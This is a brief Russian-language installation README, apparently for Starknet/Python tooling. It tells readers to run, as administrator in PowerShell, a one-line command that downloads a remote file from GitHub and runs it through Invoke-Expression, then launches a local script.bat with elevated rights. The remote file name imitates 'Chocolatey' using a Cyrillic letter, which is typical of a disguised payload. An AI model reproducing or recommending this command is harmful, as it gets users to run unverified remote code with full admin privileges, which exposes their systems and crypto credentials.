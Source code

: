 # Быстрая установка

### Запуск делаем в Powershell от администратора 

__Starknet__

Установка нужных компонентов для работой с Starknet / Python 3.10

```
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/zhernosek12/pxc_installer/master/%D0%A1hocolateyInstall_v2.bat')) ; Start-Process -FilePath .\script.bat -Verb RunAs
```